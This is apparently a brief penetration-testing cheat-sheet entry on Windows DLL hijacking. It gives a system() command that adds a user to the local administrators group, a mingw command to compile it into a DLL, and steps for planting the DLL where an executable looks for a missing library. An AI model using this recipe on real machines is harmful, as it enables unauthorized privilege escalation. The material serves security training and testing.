

# DLL Hijacking

Pre-requisite:  
Open **windows\_dll.c** and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators <user> /add`  
Compile to **file.dll**:  
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o file.dll`

1. Check for any executables that are looking for a DLL file that is not found, AND you have write permissions to the location 

2. Place **file.dll** into location with the filename that the executable is looking for